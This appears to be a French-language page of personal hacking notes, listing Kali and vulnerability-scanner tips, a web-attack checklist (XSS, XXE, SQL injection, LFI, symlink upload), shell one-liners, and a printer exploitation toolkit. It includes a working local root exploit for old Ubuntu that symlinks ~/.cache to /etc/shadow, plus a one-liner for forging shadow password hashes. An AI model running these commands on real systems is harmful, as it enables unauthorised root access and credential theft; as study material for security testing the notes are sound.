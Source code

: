 <head>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
</head>
[index](index.html)

## Hacking machines

### Utilisation de Kali

- Installer une full pour avoir metasploit
- Les wordlists sont dans /usr/share/wordlists

### Recherche vulnerabilités

- Banner grabbing: $nc [ip] [port] : ex donne info sur serveur web.
- NeXpose (Rapid7), possibilite de sauver le report en xml pour relecture dans msf. Il existe aussi plugin "nexpose" pour msf.
- Nessus (Tenable Security). Il existe aussi plugin "nessus" pour msf.
- OpenVAS : Fork Open Source de Nessus (qui est devenu close) - Installé sur https://127.0.0.1:9392. Se paramètre via openvasmd, par exemple pour reinit le password d'admin:
    $ openvasmd --user=admin --new-password=letmein

### [Metasploit](hacking-metasploit.html)

## Hacking web

### Les attaques
1. Regarder le source généré (CTRL+U sur Firefox)
- Regarder les autres fichiers chargés (y.c leur code source, notamment pour js et css)
- Lire le header de retour
- Modification du user-agent ou autres parties header
- Décoder le fonctionnement du javascript
- Tester les user/pwd triviaux. Liste : 
- Fichiers backup (~, bak, old, sav)
- Regarder si un fichier robots.txt est présent
- Fichiers autogénérés comme .pyc si site en python
- La présence d'un répertoire de livraison
- La présente du répertoire .git/ ou .svn... ou même /git
- [XSS injection](xss.html)
- XXE : un peu comme XSS mais grace aux entités et aux dtd. A noter qu'on peut faire des XXE permettant d'envoyer le résultat avant la fin de la page.
- XSL : il est possible de faire des choses sympa si on peut modifier le xsl : connaître le moteur xsl et sa version, dans certains cas injecter des commandes, lire des documents choisis (ou en partie), voire même écrire.
- Injection sql (blind, différents moteurs, time attack, tables systèmes)
- Injection xpath (cf sql)
- LFI : upload de fichier (mime, extension, php dans fichier, null byte dans nom) + moyen executer
- S'il est possible d'uploader des fichiers compressés (ou au moins .tar) qui seront décompressés : mettre un symlink 
- Modification du cookie
- Directory indexing/traversing - Essayer de deviner les répertoires
- Fichiers/répertoire d'install
- CRLF : permet de leurrer utilisateur, ou mailer
- PHP : register globals (pour les var non initialisées) - vieilles versions
- [PHP wrappers](phpwrappers.html) : affiche contenu des fichiers php...

### Les outils

1. md5sum : Pour générer la somme md5. Ex: echo bob | md5sum

- python -c "import crypt, getpass, pwd; print crypt.crypt('password', '\$6\$salt\$')"
=> pour creer /etc/shadow

- Serveur web avec netcat : while true; do nc -l -p 8080 < index.html; done 
UTILISER EN FAIT nc.traditional au lieu de nc
http://www.monip.org : 82.238.192.170

Exploit linix :
sur ubuntu non patche:
Aujourd'hui, une faille de sécurité assez simple à mettre en oeuvre a été révélée. Elle n'impacte que la distribution Linux Ubuntu sur les versions 9.10 et 10.04.

Celle-ci concerne donc ce problème de sécurité qui permet à n'importe quel utilisateur loggué sur la machine d'acquérir les droits du compte root (superadmin).

L'exploit se base sur une faiblesse du module pam_motd qui est intégré dans la chaine d'authentification.

Il est donc possible de simplement le retirer la pile pam via les fichiers de configuration ou de mettre à jour comme préconisé.

Je vous communique l'exploit à titre d'information:

Admettons que je sois loggué sur la machine sous l'utilisateur: franck

---

rm -rf ~/.cache

ln -s /etc/shadow ~/.cache

ssh localhost

---

Vous voila propriétaire du fichier /etc/shadow !

Ce qui vous permettra bien évidemment de récupérer l'accès root...

- Manipuler de l'hexa : xxd et hd

## Hacking imprimantes

Il semble que [PRET](https://github.com/RUB-NDS/PRET) PRinter Exploitation Toolkit (outils pythons) soit pas mal utilisé.



